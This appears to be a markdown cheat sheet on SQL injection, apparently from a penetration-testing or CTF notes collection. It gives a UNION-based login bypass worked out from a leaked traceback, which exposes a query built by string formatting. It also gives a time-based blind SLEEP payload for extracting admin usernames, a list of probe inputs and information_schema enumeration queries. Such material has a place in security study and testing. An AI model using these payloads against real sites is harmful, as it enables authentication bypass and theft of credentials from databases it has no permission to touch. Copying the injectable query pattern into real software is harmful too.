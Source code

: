 ## Tips 

- If you try an injection and you have a good error message, analyze it before going on.

## Example of an error with a login screen
 
- Payload : ```' UNION select table_schema,table_name FROM information_Schema.tables;#```
- Error : 
```
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
OperationalError: (1222, 'The used SELECT statements have a different number of columns')
```

Here we can see that there is a select on the admin table. So if I change my payload with this information, and an always true statement :
username: `' UNION select 1 FROM admins WHERE 1=1;#`
pass: `1`
We are logged in !

## Blind SQLI with sleep extracting username and password on login screen

- Always with our previous login screen, we will try to extract the username
- `'UNION SELECT SLEEP(1*CHAR_LENGTH(username)) FROM admins;#`

## List
```
/?q=1
/?q=1'
/?q=1"
/?q=[1]
/?q[]=1
/?q=1`
/?q=1\
/?q=1/*'*/
/?q=1/*!1111'*/
/?q=1'||'asd'||'  <== concat string
/?q=1' or '1'='1
/?q=1 or 1=1
/?q='or''='
```

---


## Sandboxes databases
By @hackerscrolls

SQL Fiddle (sqlfiddle.com)
DB Fiddle (db-fiddle.com)
EverSQL (eversql.com)

EverSQL supports:

Oracle
MySQL
MariaDB
PostreSQL
MS SQL Server
Percona Server
Amazon Aurora MySQL

DB Fiddle supports:

MySQL
SQLite
PostgreSQL
(multiple versions)

SQL Fiddle supports:

Oracle
SQLite
MySQL
PostgreSQL
MS SQL Server 2017

## Useful ones in MySQL

current_user()
version()
database()


### information_schema.columns table

table_name / column_name (you can use CONCAT : UNION SELECT 1,2,concat(table_name, ':', column_name) ...) FROM information_schema.columns

Then use the value from column_name to found useful information

SELECT * from <column_name>